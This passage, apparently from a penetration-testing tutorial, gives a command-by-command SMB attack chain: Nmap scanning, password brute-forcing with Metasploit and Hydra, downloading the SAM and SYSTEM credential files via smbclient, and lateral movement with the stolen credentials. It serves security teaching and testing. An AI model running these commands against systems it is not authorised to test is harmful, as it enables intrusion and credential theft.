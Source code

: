 **Common Causes:**
- Insufficient file permissions
- File is locked by another process
- Local directory not writable
- File transfer mode issues

---

## 🔗 Integration with Other Tools

### Complete Attack Chain: Nmap → SMB Attacks → Post-Exploitation

This shows how SMB password attacks fit into full penetration testing.

#### Phase 1: Discovery with Nmap
```bash
# Network discovery
nmap -sS 192.168.1.0/24
# Find all live hosts

# SMB service enumeration
nmap -p 445 --script smb-protocols,smb-security-mode target_ip
# Detailed SMB information

# SMB vulnerability scanning
nmap -p 445 --script smb-vuln-* target_ip
# Check for known vulnerabilities
```

#### Phase 2: Password Attacks
```bash
# Metasploit credential testing
use auxiliary/scanner/smb/smb_login
set RHOSTS target_ip
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
exploit

# Hydra backup attack
hydra -L users.txt -P passwords.txt target_ip smb
```

#### Phase 3: Post-Exploitation
```bash
# After gaining SMB access
# Credential harvesting
smbclient //target_ip/admin -U admin
smb: \> get SAM
smb: \> get SYSTEM
# Download password database files

# Lateral movement
# Use found credentials on other systems
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.0/24
set SMBUser discovered_user
set SMBPass discovered_pass
exploit
```
